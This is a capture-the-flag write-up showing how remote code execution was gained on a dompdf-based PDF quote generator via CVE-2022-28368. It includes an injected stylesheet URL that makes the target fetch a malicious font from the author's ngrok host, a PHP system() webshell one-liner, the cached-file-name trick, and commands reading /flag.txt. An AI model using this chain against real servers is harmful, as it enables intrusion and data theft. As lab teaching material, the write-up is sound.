 >Wooohoo!!! Stickers!!! Hackers love STICKERS!! You can make your own with our new website!
>**Find the flag file in `/flag.txt` at the root of the filesystem.**
--------------
Visiting the website, there is a form to fill out custom information. Upon submitting data, we are generated a pdf webpage:

![[Pasted image 20230616151436.png]]

In particular I notice the url of the page corresponds to the data I submitted:

```
http://challenge.nahamcon.com:31182/quote.php?organisation=&email=&small=0&medium=0&large=0
```

I downloaded the pdf file and decided to see if I can glean some information on how it was generated:

```
$ exiftool quote.pdf 
ExifTool Version Number         : 12.57
File Name                       : quote.pdf
Directory                       : .
File Size                       : 2.5 kB
File Modification Date/Time     : 2023:06:16 15:15:27-04:00
File Access Date/Time           : 2023:06:16 15:15:27-04:00
File Inode Change Date/Time     : 2023:06:16 15:15:27-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 1
Producer                        : dompdf 1.2.0 + CPDF
Create Date                     : 2023:06:16 19:14:20+00:00
Modify Date                     : 2023:06:16 19:14:20+00:00
Title                           : Quote
```

Immediately the producer `dompdf` stands out to me. I recognize a pretty serious vulnerability it that can lead to remote code execution [CVE-2022-28368](https://nvd.nist.gov/vuln/detail/CVE-2022-28368). 

I used [this poc post](https://github.com/positive-security/dompdf-rce) to exploit this.

Using my own `ngrok` website, I direct the payload toward myself, where it can pick up the malicious php:

```
challenge.nahamcon.com:31182/quote.php?organisation=<link rel=stylesheet href='https://91cf-50-81-86-237.ngrok-free.app/exploit.css'>&email=&small=0&medium=0&large=0
```

In the exploit_font.php, I used a simple webshell one-liner:

```shell
$ cat exploit_font.php 

� dum1�cmap
           `�,glyf5sc��head�Q6�6hhea��($hmtxD
loca
Tmaxp\ nameD�|8dum2�
                     -��-����
:83#5:08��_<�
             @�8�&۽
:8L��

:D

6                               s
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

The unreadable junk above seems to be related to the file being intended as a font style, so it was left unchanged. 

After the request is sent, I see two GET requests on my server, knowing that it was successfully retrieved:

```
HTTP Requests                                                                                                       
-------------                                                                                                       
                                                                                                                    
GET /exploit_font.php          200 OK                                                                               
GET /exploit.css               200 OK 
```

Now we need to determine the new name of the malicious php downloaded. While not thoroughly explained in the POC github, it appears that the name is based on the `md5sum` of the download link, in this case my ngrok link:

```
$ echo -ne "https://91cf-50-81-86-237.ngrok-free.app/exploit_font.php" | md5sum
88045a0e7631a2540434bb8c27d7d483  -

```


Now we visit the downloaded link under the format `/dompdf/lib/fonts/<font-family>_<style>_<md5(url)>.php`

```
challenge.nahamcon.com:31182/dompdf/lib/fonts/exploitfont_normal_88045a0e7631a2540434bb8c27d7d483.php?cmd=id
```

```
� dum1�cmap`�,glyf5sc��head�Q6�6hhea��($hmtxD Lloca Tmaxp\ nameD�|8dum2� -��-���� :83#5:08��_<�@�8�&۽ :8L�� :D 6    s

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We do indeed see that it works! We were told the flag is located in root of the filesystem:

```
challenge.nahamcon.com:31182/dompdf/lib/fonts/exploitfont_normal_88045a0e7631a2540434bb8c27d7d483.php?cmd=cat /flag.txt
```


`flag{a4d52beabcfdeb6ba79fc08709bb5508}`